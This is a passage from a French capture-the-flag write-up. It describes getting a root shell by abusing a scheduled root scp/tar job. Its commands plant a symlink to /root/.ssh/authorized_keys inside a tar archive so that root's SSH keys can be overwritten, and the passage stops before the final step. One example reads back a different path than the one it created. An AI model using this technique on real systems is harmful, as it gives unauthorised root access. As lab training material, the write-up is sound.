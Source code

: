 ```bash
scp qtc@<IP DOCKER>:/opt/fatty/tar/logs.tar .
tar -xvf logs.tar
```

On peut ensuite supposer que ces commandes seront executées en tant que root.

Si ces hypothèses savèrent vraies, alors on peut facilement obtenir le shell root.

## Obtenir un shell root

Pour obtenir un shell root en exploitant *scp* et *tar*, il faut utiliser un lien symbolique.

En effet, une archive peut contenir un lien symbolique. En décompressant celle-ci le lien symbolique est gardé intacte.  Par exemple :

- Je créé un lien symbolique 

  ```bash
  ln -s /tmp/fichier_test symlink
  ```

- Je le met dans une archive

  ```bash
  tar -cvf archive.tar symlink
  ```

- J'envoie ce tar sur un autre machine

- Je décompresse le tar

  ```bash
  tar -xvf archive.tar
  ```

- J'écris dans le fichier symlink

  ```bash
  echo "Test test" > symlink
  ```

- Le fichier */tmp/fichier_test* existe et contient notre test

  ```bash
  cat /etc/fichier_test
  	Test test
  ```

Dans notre cas, nous que la décompression sur le serveur cible transforme *logs.tar* en lien symbolique vers */root/.ssh/authorized_keys* afin de pouvoir, lors d'un second scp, écrire sur celui-ci.

Donc on fait comme suit :

```bash
ln -s /root/.ssh/authorized_keys logs.tar
tar -cvf archive.tar logs.tar
cp archive.tar /opt/fatty/tar/logs.tar
```

On attend ensuite un scp (une minute, on peut voir son déclenchement avec *pspy*). Puis on remplace notre lien symbolique par un fichier contenant notre clef publique SSH
